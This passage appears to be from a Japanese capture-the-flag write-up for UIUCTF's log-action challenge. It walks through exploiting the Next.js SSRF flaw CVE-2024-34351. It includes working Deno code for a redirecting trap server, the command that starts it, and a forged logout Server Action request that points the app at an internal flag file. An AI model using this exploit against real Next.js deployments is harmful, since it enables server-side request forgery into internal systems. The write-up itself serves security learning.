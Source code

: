 今回は正常ログインはできなさそうなので、ログアウト処理の利用を考えます。  
後はSSRFを使って`http://backend/flag.txt`にアクセスさせればflagが取得できそうです。

CVE-2024-34351を使って任意の場所にアクセスさせるには、罠サイト経由でリダイレクトさせればよいらしいので、罠サーバを立てます。  
PoCを利用させてもらいました。  
<https://github.com/azu/nextjs-CVE-2024-34351/tree/main/attacker-server>

- test.ts

```ts:test.ts
Deno.serve((request: Request) => {
  console.log(
    "Request received: " +
      JSON.stringify({
        url: request.url,
        method: request.method,
        headers: Array.from(request.headers.entries()),
      })
  );
  // Head - 'Content-Type', 'text/x-component');
  if (request.method === "HEAD") {
    return new Response(null, {
      headers: {
        "Content-Type": "text/x-component",
      },
    });
  }
  // Get - redirect to example.com
  if (request.method === "GET") {
    return new Response(null, {
      status: 302,
      headers: {
        Location: "http://backend/flag.txt",
      },
    });
  }
});
```

罠サーバを起動しておきます。

```sh
deno run --allow-net --allow-read test.ts
```

攻撃に利用するログアウトのリクエストは、手間なのでローカル時に確認したリクエストをそのまま使い、HostとOriginを変更します。  
多分Next-Actionがあっていれば問題ないはず。

```http
POST /logout HTTP/1.1
Host: <攻撃者サーバ>
Content-Length: 305
sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126"
Next-Router-State-Tree: %5B%22%22%2C%7B%22children%22%3A%5B%22logout%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%5D%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D
Accept-Language: ja
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarylivQD5fbtFxQuOpP
Accept: text/x-component
Next-Action: c3a144622dd5b5046f1ccb6007fea3f3710057de
sec-ch-ua-platform: "Windows"
Origin: https://<攻撃者サーバ>
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://log-action.challenge.uiuc.tf/logout
```